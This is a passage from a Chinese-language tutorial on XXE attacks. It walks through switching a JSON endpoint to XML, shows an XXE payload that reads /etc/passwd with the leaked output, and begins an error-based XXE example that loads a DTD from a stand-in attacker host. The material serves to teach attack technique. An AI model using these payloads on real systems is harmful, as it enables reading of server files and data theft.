 ```html
HTTP Response:
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 43
{"error": "no results for name netspitest"}
```
现在我们尝试将 Content-Type 修改为 application/xml
进一步请求和响应：
```html
HTTP Request:
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 38
{"search":"name","value":"netspitest"}

HTTP Response:
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 127
{"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
```
可以发现服务器端是能处理 xml 数据的，于是我们就可以利用这个来进行攻击
最终的请求和响应：
```xml
HTTP Request:
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 288
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>

HTTP Response:
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 2467
{"error": "no results for name root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync....
```
## **2.4 报错回显类型XXE**
想象你有一个XXE。支持外部实体，但服务器的响应始终为空。在这种情况下，您有两种选择：基于错误和带外利用。基于报错的原理和OOB类似，OOB通过构造一个带外的url将数据带出，而基于报错是构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。考虑以下基于错误的示例：
### **通过引用外部DTD文件**
**Request：**
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```